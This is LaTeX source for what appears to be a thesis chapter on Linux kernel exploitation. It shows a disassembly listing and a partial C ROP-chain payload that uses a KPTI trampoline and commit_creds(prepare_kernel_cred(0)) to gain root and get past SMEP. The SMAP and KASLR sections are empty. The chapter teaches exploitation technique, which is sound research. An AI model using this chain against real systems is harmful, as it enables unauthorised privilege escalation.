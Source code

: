 \documentclass{masterthesis}
\begin{document}
\section{Tweaking the ROP chain}
The piece of code resides in a function called \lstinline{swapgs_restore_regs_and_return_to_usermode()} which we always find with \lstinline{/proc/kallsyms}.
\begin{lstlisting}
.text:FFFFFFFF81200F10                 pop     r15
...
.text:FFFFFFFF81200F26                 mov     rdi, rsp
.text:FFFFFFFF81200F29                 mov     rsp, qword ptr gs:unk_6004
.text:FFFFFFFF81200F32                 push    qword ptr [rdi+30h]
.text:FFFFFFFF81200F35                 push    qword ptr [rdi+28h]
.text:FFFFFFFF81200F38                 push    qword ptr [rdi+20h]
.text:FFFFFFFF81200F3B                 push    qword ptr [rdi+18h]
.text:FFFFFFFF81200F3E                 push    qword ptr [rdi+10h]
.text:FFFFFFFF81200F41                 push    qword ptr [rdi]
.text:FFFFFFFF81200F43                 push    rax
.text:FFFFFFFF81200F44                 jmp     short loc_FFFFFFFF81200F89
...

.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
\end{lstlisting}
Up to the address FFFFFFFF81200F26 the function makes a series of pop that free the stack, then you get to the part that swaps the tables of the page.
We will have two extra pop at the beginning, then we will add two dummy values, and we will modify the final part of our ROP chain from \lstinline{SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS)} to \lstinline{KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS}.
\begin{lstlisting}
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
\end{lstlisting}
This solution can be used regardless of whether KPTI is enabled or not.
So, even if different from the one seen in the paragraph (subsection {Second scenario}), it can be used to bypass the SMEP.
\section{Adding SMAP}

\section{Adding KASLR and FG-KASLR}
\end{document}
